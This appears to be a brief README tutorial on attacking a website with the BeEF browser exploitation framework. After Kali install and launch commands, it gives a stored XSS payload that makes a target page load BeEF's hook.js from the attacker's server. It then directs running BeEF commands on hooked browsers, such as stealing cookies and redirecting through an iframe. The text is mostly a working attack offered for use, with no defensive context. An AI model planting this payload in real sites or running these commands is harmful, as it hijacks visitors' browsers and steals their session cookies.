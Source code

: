 # Example of using beef to explorer XSS

1. Install Kali Linux.

2. Install Beef.

```
sudo apt update
sudo apt install beef-xss
```

3. Run Beef.

```
cd /usr/share/beef-xss/
sudo ./beef
```

4. Copy hook script URL.

5. Open Beef UI in browser.

6. Open target site and inject beef hook script using Stored XSS Vector.

```
<img src=1 onerror=$.getScript("http://localhost:3000/hook.js")> Beef
```

7. Back to Beef UI, check online browser. Go to commands and test some of them, like retrieving cookies and redirect using iframe.
